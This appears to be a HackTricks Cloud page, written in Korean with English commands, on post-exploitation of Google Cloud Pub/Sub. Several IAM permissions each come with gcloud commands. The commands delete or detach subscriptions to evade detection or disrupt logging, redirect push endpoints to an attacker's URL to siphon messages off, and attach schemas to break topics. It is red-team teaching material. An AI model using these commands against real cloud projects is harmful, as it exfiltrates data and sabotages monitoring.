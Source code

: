 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Pub/Sub에 대한 자세한 정보는 다음 페이지를 확인하세요:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

주제에 메시지를 게시합니다. **예상치 못한 데이터**를 전송하고 예상치 못한 기능을 트리거하거나 취약점을 악용하는 데 유용합니다:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

메시지를 수신하는 것을 방지하는 데 유용하며, 아마도 탐지를 피하기 위해서입니다.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

구독이 메시지를 받지 못하도록 방지하는 데 유용하며, 아마도 탐지를 피하기 위해서입니다.\
구독이 연결된 상태에서도 주제를 삭제할 수 있습니다.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

이 권한을 사용하여 주제를 방해하기 위해 `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`와 같은 설정을 업데이트합니다.

### `pubsub.topics.setIamPolicy`

이전 공격을 수행할 수 있는 권한을 부여합니다.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

웹 서버에서 모든 메시지를 가져옵니다:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

구독을 생성하고 이를 사용하여 **메시지를 가져옵니다**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**구독 삭제**는 로그 처리 시스템이나 유사한 것을 방해하는 데 유용할 수 있습니다:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

이 권한을 사용하여 메시지가 액세스할 수 있는 위치(URL, Big Query 테이블, Bucket)에 저장되도록 일부 설정을 업데이트하거나 단순히 방해할 수 있습니다.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

자신에게 이전에 언급된 공격을 수행하는 데 필요한 권한을 부여합니다.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

스키마를 주제에 연결하여 메시지가 이를 충족하지 않도록 하여 주제가 중단되게 합니다.\
스키마가 없다면 하나를 생성해야 할 수도 있습니다.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

이것은 스키마를 삭제하는 것처럼 보일 수 있지만, 스키마를 충족하지 않는 메시지를 보낼 수 있습니다. 그러나 스키마가 삭제되므로 실제로는 어떤 메시지도 주제에 들어가지 않습니다. 따라서 이것은 **무의미합니다**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

필요한 권한을 부여하여 이전에 언급된 공격을 수행할 수 있습니다.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

이것은 모든 unACKed 메시지의 스냅샷을 생성하고 이를 구독으로 다시 넣습니다. 공격자에게는 그다지 유용하지 않지만 여기에 있습니다:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **해킹 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하세요.

</details>
{% endhint %}
